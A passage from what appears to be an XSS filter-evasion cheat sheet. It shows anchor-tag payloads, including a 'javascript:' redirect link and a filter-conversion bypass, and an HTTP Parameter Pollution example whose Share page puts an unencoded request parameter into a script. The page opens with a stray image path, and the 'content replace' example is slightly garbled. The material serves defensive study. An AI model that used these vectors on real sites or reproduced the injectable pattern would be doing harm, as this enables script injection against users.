 ```html
<a href="http://google.com/">XSS</a>
```

Extra dot for absolute DNS:

```html
<a href="http://www.google.com./">XSS</a>
```

### JavaScript Link Location

```html
<a href="javascript:document.location='http://www.google.com/'">XSS</a>
```

### Content Replace as Attack Vector

Assuming `http://www.google.com/` is programmatically replaced with nothing). I actually used a similar attack vector against a several separate real world XSS filters by using the conversion filter itself (here is an example) to help create the attack vector (IE: `java&\#x09;script:` was converted into `java script:`, which renders in IE, Netscape 8.1+ in secure site mode and Opera):

```html
<a href="http://www.google.com/ogle.com/">XSS</a>
```

## Assisting XSS with HTTP Parameter Pollution

Assume a content sharing flow on a web site is implemented as below. There is a "Content" page which includes some content provided by users and this page also includes a link to "Share" page which enables a user choose their favorite social sharing platform to share it on. Developers HTML encoded the "title" parameter in the "Content" page to prevent against XSS but for some reasons they didn't URL encoded this parameter to prevent from HTTP Parameter Pollution. Finally they decide that since content_type's value is a constant and will always be integer, they didn't encode or validate the content_type in the "Share" page.

### Content Page Source Code

```html
`a href="/Share?content_type=1&title=<%=Encode.forHtmlAttribute(untrusted content title)%>">Share</a>
```

### Share Page Source Code

```html
<script>
  var contentType = <%=Request.getParameter("content_type")%>;
  var title = "<%=Encode.forJavaScript(request.getParameter("title"))%>";
  ...
  //some user agreement and sending to server logic might be here
  ...
</script>
```

